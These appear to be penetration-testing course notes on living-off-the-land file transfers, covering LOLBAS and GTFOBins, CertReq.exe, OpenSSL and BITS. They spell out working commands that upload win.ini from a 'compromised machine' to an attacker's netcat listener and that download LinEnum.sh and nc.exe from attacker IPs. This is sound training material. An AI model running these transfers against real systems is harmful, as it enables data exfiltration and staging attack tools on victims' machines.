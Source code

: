## Using LOLBAS and GTFOBins

### LOLBAS (Windows)
- **Search**: Use `/download` or `/upload` on lolbas-project.github.io.
- **Examples**:
  - **CertReq.exe** (Download):
  - **ConfigSecurityPolicy.exe** (Upload)
  - **DataSvcUtil.exe** (Upload)
- **Example: CertReq.exe Upload**:
  - Pwnbox (listen):
    ```bash
    sudo nc -lvnp 8000
    ```
  - Compromised Machine:
    ```cmd
    certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
    ```
  - **Output**: File content (e.g., `win.ini`) received in Netcat session.
  - **Note**: Older `certreq.exe` versions may lack `-Post`; download updated version if needed.

### GTFOBins (Linux)
- **Search**: Use `+file download` or `+file upload` on gtfobins.github.io.
- **Examples**:
  - Binaries: `ab`, `bash`, `curl`, `scp`, `socat`, `ssh`, `wget`.
  - Functions: File download/upload, SUID, sudo.
- **Example: OpenSSL Download**:
  - Pwnbox (create certificate and start server):
    ```bash
    openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
    openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem
    ```
  - Compromised Machine (download):
    ```bash
    openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
    ```

## Other Common LotL Tools

### Bitsadmin (Windows)
- **Purpose**: Background Intelligent Transfer Service (BITS) downloads files from HTTP/SMB, minimizing impact on user tasks.
- **Example**:
  ```powershell
  bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\htb\nc.exe
  ```
- **PowerShell BITS**:
  ```powershell
  Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\htb\nc.exe"
  ```
- **Features**: Supports credentials, proxy servers, uploads.
